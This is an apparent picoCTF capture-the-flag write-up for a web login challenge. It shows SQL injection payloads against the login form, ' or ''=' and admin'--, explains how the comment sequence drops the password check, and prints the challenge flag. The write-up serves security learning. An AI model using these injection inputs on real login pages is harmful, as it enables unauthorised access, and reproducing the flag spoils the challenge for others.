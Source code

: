 #web-exploitation
<hr>

#### Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

#### Solve
1.  First, send POST request to https://jupiter.challenges.picoctf.org/problem/53751/login.php with request key of debug=1
2. The SQL query: SELECT * FROM users WHERE name=' '  AND password=' ' (**Same as before**)
3. Do SQL Injection by sending POST request with username=`' or ''='` and password=`' or ''='`  --> Failed
4. Some research on https://portswigger.net/web-security/sql-injection: Subverting application logic. send POST with username=`admin'--`
5. The SQL query: SELECT * FROM users WHERE name='admin'--' AND password='admin'
> The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query... (portswigger)
6. Your flag is: picoCTF{m0R3_SQL_plz_c34df170}